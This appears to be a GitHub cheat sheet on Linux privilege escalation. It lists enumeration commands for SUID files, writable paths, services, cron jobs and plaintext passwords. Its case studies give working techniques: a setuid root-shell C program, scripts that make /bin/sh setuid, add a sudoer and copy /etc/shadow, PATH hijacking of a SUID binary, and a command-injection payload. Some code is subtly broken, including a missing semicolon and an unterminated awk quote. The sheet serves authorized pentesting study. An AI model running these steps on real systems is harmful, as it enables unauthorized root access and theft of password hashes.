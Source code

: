 #### Check kernel version
- uname -a

#### Environmental variables
- cat /etc/profile
- cat /etc/bashrc
- cat ~/.bash_profile
- cat ~/.bashrc
- cat ~/.bash_logout

#### Check common location for user installed software
- /usr/local/
- /usr/local/src
- /usr/local/bin
- /opt/
- /home
- /var/
- /usr/src/

#### Available services
- netstat -anlp
- netstat -ano

#### Running services
- ps aux | grep root
- ps -ef | grep root
- top
- cat /etc/services

#### Plain text usernames and/or password
- grep -i user [filename]
- grep -i pass [filename]
- grep -C 5 "password" [filename]
- find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla

#### Unmounted filesystem
- mount -l
- cat /etc/fstab

#### Access to more binaries
- export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

#### Searching SUID file (SUID file is a special type of file permission given to a file
- find / -perm -u=s -type f 2>/dev/null
- find / -perm -4000 -type f 2>/dev/null
- find / -uid 0 -perm -4000 -type f 2>/dev/null
- find / -type f -perm -g+s -exec ls -ald {} \; 2>/dev/null

#### Find 
- find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;

#### Find world writable files
- find / -writable -type d 2>/dev/null
- find / -perm -222 -type d 2>/dev/null
- find / -perm -o w -type d 2>/dev/null
- find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null

##### Find world writable folder
- find / -perm -o x -type d 2>/dev/null

##### Find world writable and executable folders
- find / \( -perm -o w -perm -o x \) -type d 2>/dev/null

#### Execute file as root
- sudo -l

#### Installed apps
- ls -alh /usr/bin/
- ls -alh /sbin/
- dpkg -l
- rpm -qa
- ls -alh /var/cache/apt/archivesO
- ls -alh /var/cache/yum/

#### Services misconfigured
- cat /etc/syslog.conf
- cat /etc/chttp.conf
- cat /etc/lighttpd.conf
- cat /etc/cups/cupsd.conf
- cat /etc/inetd.conf
- cat /etc/apache2/apache2.conf
- cat /etc/my.conf
- cat /etc/httpd/conf/httpd.conf
- cat /opt/lampp/etc/httpd.conf
- ls -aRl /etc/ | awk '$1 ~ /^.*r.*/

#### World writable directories
- /tmp
- /var/tmp
- /dev/shm
- /var/spool/vbox
- /var/spool/samba

#### Cronjobs
- crontab -l
- ls -alh /var/spool/cron
- ls -al /etc/ | grep cron
- ls -al /etc/cron*
- ls -alh -R /etc/cron*
-----------------------------------------------------------------------------------------------------------------------
## Case study
### Secanrio 1
#### Create usefull C file
int main()
{
  setuid(0);
  setgid(0);
  execl("/bin/sh", "sh", 0)
}

#### Create usefull bash script

##### Make a user sudoer
```
#!/bin/bash
adduser test sudo
```

##### Get a root shell
```
#!/bin/bash
chown root:root /bin/sh ; chmod 4777 /bin/sh

run: /bin/sh
```

##### Read /etc/shadow
```
#!/bin/bash
cat /etc/shadow > /tmp/shadow
```
### Secanrio 2

- Improper suid example 1
```suid binary use command cat /path/file```
- run the cat command without providing the full path.
##### Privesc
```
cd /tmp
echo /bin/bash > cat
chmod 777 cat
export PATH=/tmp:$PATH
run binary
```
- Improper suid example 2
```suid binary passed user input is to the /bin/echo command```
- command injection
##### Privesc
```
./suidbinary
Meassage for root: hello && /bin/sh
id 
```

#### Run usefull script for linux enumeration
- ***Linenum***: https://github.com/rebootuser/LinEnum
- ***Linuxprivchecker***: https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- ***LinuxExploitSuggester***: https://github.com/mzet-/linux-exploit-suggester
- ***LinuxExploitSuggester2***: https://github.com/jondonas/linux-exploit-suggester-2
- ***LinuxPrivChecker***: https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- ***LinuxSmartEnumeration***: https://github.com/diego-treitos/linux-smart-enumeration

#### 6) Enumerate /var directory and uncommon files and directory names

